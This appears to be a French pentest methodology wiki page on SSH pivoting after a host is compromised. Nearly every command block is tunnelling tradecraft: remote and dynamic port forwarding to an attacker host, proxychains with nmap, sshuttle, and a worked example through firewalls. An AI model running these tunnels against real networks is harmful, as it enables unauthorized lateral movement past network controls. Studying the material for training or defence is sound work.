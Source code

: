 ```yaml
---
title: Proxy SSH
permalink: /Proxy_SSH/
---
```


# Proxy SSH

Remote Port Forwarding with SSH
-------------------------------

On a compromis l'ĥôte 10.3.3.99 et on cherche à créer un tunnel SSH avec l'attaquant 192.168.30.229. Il suffit de lancer la commande suivante sur 10.3.3.99

``` bash
ssh -f -N -p 80 192.168.30.229 -R 8080:10.3.3.99:80
```

Ceci permettra à l'attaquant d'accéder 10.3.3.99:80 en accédant à localhost:8080.

La commande générique est:

``` bash
ssh -f -N -p <authorized port> <attacker ip> -R <port to bind on attacker>:<target ip>:<target port>
```

Dynamic Port Forwarding with SSH
--------------------------------

Ceci permet se mettre un *dynamic port forwarding* vers 192.168.31.251:

``` bash
ssh -f -N -D 8888 root@192.168.31.251
```

La commande générique est:

``` bash
ssh -f -N -D <local proxy port> <target>
```

On peut ensuite utiliser localhost:8888 en tant que proxy SOCKS (avec proxychains ou le navigateur web).

Outils
------

### Proxychains

Utiliser [Proxychains-NG](https://github.com/rofl0r/proxychains-ng) avec nmap. Il est nécessaire de faire des *Full Connect Scan*:

``` bash
proxychains nmap -sT -F -sV -A -O -PN 10.1.1.246
```

### SSHuttle

L'outil [sshuttle](https://github.com/apenwarr/sshuttle), permet de mettre facilement en place un tunnel SSH:

``` bash
./sshuttle -r sean@192.168.31.251 10.0.0.0/8 -vv
```

### Autres

[EgressBuster](https://github.com/trustedsec/egressbuster)

Exemple Complet
---------------

We want to access 10.3.3.99 on port 80 with firefox. On cherche a accéder à 10.3.3.99:80 avec firefox.

Le réseau est le suivant:

``` bash
Attacker [192.168.30.229]
Firewall [192.168.31.251]

Sean-Desktop [10.1.1.246]
Firewall [10.1.1.251]

Bill [10.3.3.44]
Jim [10.3.3.99]
```

On utilise **sshuttle** pour accéder au réseau 10.1.1.0/24

``` bash
~/utils/sshuttle -r sean@192.168.31.251 10.1.1.0/24 -vv
```

Ensuite on compromet Bill et on met en place un remote port forwarding jusqu'à l'attaquant pour pouvoir accéder au port 22 sur Bill depuis la machine de l'attaquant:

``` bash
ssh -f -N -R 2222:127.0.0.1:22 -p 80 root@192.168.30.229
```

On mets ensuite en place un *dynamic port forwarding*:

``` bash
ssh -f -N -D 8080 -p2222 bill@127.0.0.1
```

On peut ensuite configurer iceweasel pour utiliser localhost:8080 comme proxy SOCKS.

Resources
---------

-   [Dynamic Port Forwarding](http://netsec.ws/?p=278)

[Category:Méthodologies](/Category:Méthodologies "wikilink")
